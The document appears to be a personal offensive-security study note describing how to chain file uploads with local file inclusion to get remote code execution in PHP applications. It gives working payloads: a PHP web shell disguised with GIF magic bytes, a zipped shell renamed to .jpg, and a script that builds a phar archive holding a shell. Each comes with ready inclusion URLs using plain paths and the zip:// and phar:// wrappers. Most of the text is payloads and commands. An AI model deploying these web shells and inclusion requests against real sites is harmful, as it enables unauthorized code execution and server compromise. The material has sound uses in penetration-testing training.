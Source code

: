 For LFI to work in file uploads, the file upload form do not need to be vulnerable, but merely allow us to upload files. If the vulnerable function has code `Execute` [capabilities](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FServer-side%20Vulnerabilities%2FFile%20Inclusion%20Vulnerabilities%2FRead%20vs%20Execute), then the code within the file we upload will get executed if we include it, regardless of the file extension or file type.

For example, we can upload an image file (e.g. `image.jpg`), and store a PHP web shell code within it 'instead of image data', and if we include it through the LFI vulnerability, the PHP code will get executed and we will have remote code execution.
## Crafting Malicious Image
The first step is to create a malicious image file containing a shell code that still looks and works as an image. The file should still include the image magic bytes at the beginning of the file content (i.e `GIF8`), just in case the upload form checks for both the extension and content type as well. For example:
```bash
echo 'GIF8<?php system($_GET["cmd"]) ?>' > shell.gif
```
This file on its own is completely harmless and would not affect normal web applications in the slightest. However, if we combine it with an LFI vulnerability, then we may be able to reach remote code execution.

Once the malicious file has been uploaded, all we need to do is include it through the LFI vulnerability. To do this, we need to know the path of the uploaded file. In most cases, especially with images, we can get its path from inspecting the source code after uploading the image.
```txt
http://target-website.com/?language=./images/shell.gif&cmd=id
```
## Zip Upload
There are a couple of other PHP-only techniques that utilize PHP wrappers to achieve the same goal. These techniques may become handy in some specific cases where the above technique does not work.

We can utilize the [zip](https://www.php.net/manual/en/wrappers.compression.php) wrapper to execute PHP code. However, this wrapper isn't enabled by default, so this method may not always work. To do so, we can start by creating a PHP web shell script and zipping it into a zip archive (named `shell.jpg`), as follows:
```bash
echo '<?php system($_GET["cmd"]) ?>' > shell.php && zip shell.jpg shell.php
```
> Note: Even though we named our zip archive as (shell.jpg), some upload forms may still detect our file as a zip archive through content-type tests and disallow its upload, so this attack has a higher chance of working if the upload of zip archives is allowed.

Once we have uploaded `shell.jpg`, we can include it with the `zip://` wrapper as follows:
```txt
http://target-website.com/?language=zip://./images/shell.jpg#shell.php&cmd=id
```
## Phar Upload
Finally, we can use the `phar://` wrapper to achieve a similar result. To do so, we will first write the following PHP script into a `shell.php` file:
```php
<?php

$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();
```
Next we will combine this script into a `phar` file that when called would write a web shell to a `shell.txt` sub-file, which we can interact with:
```bash
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```
Once we have uploaded our `phar` file named `shell.jpg`, we will include it with the `phar://` wrapper as follows:
```txt
http://target-website.com/?language=phar://./images/shell.jpg/shell.txt&cmd=id
```